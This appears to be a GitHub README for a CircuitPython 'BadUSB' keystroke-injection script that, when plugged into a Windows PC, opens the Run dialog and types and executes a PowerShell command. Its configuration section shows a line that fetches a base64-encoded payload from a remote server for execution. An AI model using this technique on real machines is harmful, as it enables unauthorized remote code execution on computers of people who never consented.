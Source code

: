 # USB HID Keyboard Script (Automated PowerShell Typing using CircuitPython)

This repository contains a **Python/CircuitPython script** that allows a microcontroller (such as an Adafruit board/rasberry pi pico) to emulate a USB keyboard. The script types a predefined PowerShell command automatically when plugged into a Windows computer.

> **Warning:** This script can execute arbitrary commands. Only use on your own machines or in a controlled lab environment.

---

## Features

- Waits a few seconds after plugging in to allow user focus.
- Opens the Windows Run dialog (`Win+R`).
- Types a PowerShell command line automatically.
- Presses Enter to execute the command.

---

## Requirements

- A compatible microcontroller running **CircuitPython**.
- [Adafruit HID library](https://circuitpython.org/libraries#adafruit-hid) installed.
- Python 3.x
- An editor according to preference (neovim/vs codium)
- A Windows PC for testing (the script targets Windows Run dialog).

---

## Configuration

Before using, **edit the script to replace placeholders**:

1. **Payload URL**

- change the ip address to where you host your remote server

```python
$b64=(irm http://192.168.4.1/payload).Content
```

- Adjust the initial delay if your computer takes longer to recognize the USB device

```python
time.sleep(3)
```

- Modify this to increase/decrease typing delay for reliability

```python
time.sleep(0.02)
```

## Usage

1. Copy the script to your **CircuitPython device**.
2. Plug the microcontroller into a **Windows PC**.
3. Ensure the PC is ready (have a text editor or Run dialog open if testing safely).
4. The script will automatically type the PowerShell command and execute it.

---

## Safety Notice

This script **can run arbitrary code** on your machine.

- Use it **only for educational purposes**.
- Replace URLs and commands with harmless scripts for learning.
- Testing on other people's machines without consent is illegal.

---

## Notes

- Payload should encode to **base64**.(This repo contains a encoder if you need to encode your powershell commands into base64)
- The script currently handles only alphanumeric characters correctly.
- Symbols and special characters may need extra mapping.
- Modify the `payload` string and typing loop for custom commands or messages.



⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣤⣀⠀⢀⣼⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣷⣾⣿⣿⣷⣤⣤⣶⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣶⣿⣿⣿⣿⣿⣿⣿⣿⣿⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⡦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣘⣻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣍⣀⣀⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠉⢽⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠋⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣸⣀⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⡛⣃⣤⣄⠀⠀⠀⠀⠀⣀⣀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⠛⠻⣿⣿⣿⣆⠙⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⡀⠀⢠⣿⣿⣟⠛⠛⡏⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠉⣿⣿⣆⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⣼⣿⡟⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠘⣿⣿⡆⢰⣿⡏⠈⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠀⠘⣿⣿⣿⣿⠃⠀⠀⠙⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⡀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠘⣿⣿⡏⠀⠀⠀⠀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣷⡀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠘⠟⠁⠀⠀⠀⠀⠀⠀⠙⣿⣿⣿⣿⣿⣿⣿⣿⣷⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⣇⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⠓⠒⠒⠒⠒⠒⠒⠒⠒⠒⠒⠒⠒⠚⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣠⣶⢶⣦⠀⣶⡶⠶⠆⣠⣶⣶⣶⣦⠀⠀⠀⣠⡶⢶⣦⠀⢀⣴⡶⣶⣦⢀⣶⠀⠰⣦⠀⣶⡄⠀⣶⠀⢰⡆⢰⣆⠀⣴⣶⠶⡆⣶⣶⣶⣶⣆⣶⡆⠀⢀⣦
⣸⡟⠀⠀⠀⠀⣿⣦⣤⠀⠉⠀⣿⡆⠀⠀⠀⠀⢿⣷⣤⡀⠀⣾⡏⠀⠀⠁⢸⣿⣤⣴⣿⡆⣿⡇⢠⣿⠀⣸⡇⢸⣿⠀⣿⣥⣤⠀⠈⢹⣿⠀⠀⠸⣿⣄⣼⠇
⢻⣧⡀⢸⣿⢀⣿⠉⠀⠀⠀⠀⣿⡇⠀⠀⠀⠠⣦⡈⠙⣿⡆⢿⣧⡀⢀⣠⢸⣿⠉⠀⣿⡇⢹⣧⣼⢿⣦⡿⠀⢸⣿⠀⣿⡏⠉⠀⠀⢸⣿⠀⠀⠀⢹⣿⠏⠀

⠈⠻⠿⠿⠋⠸⠟⠛⠛⠓⠀⠀⠿⠃⠀⠀⠀⠀⠙⠿⠿⠟⠁⠈⠻⠿⠿⠃⠘⠟⠀⠀⠛⠁⠀⠻⠃⠈⠛⠁⠀⠘⠟⠀⠻⠇⠀⠀⠀⠸⠿⠀⠀⠀⠺⠿⠀⠀
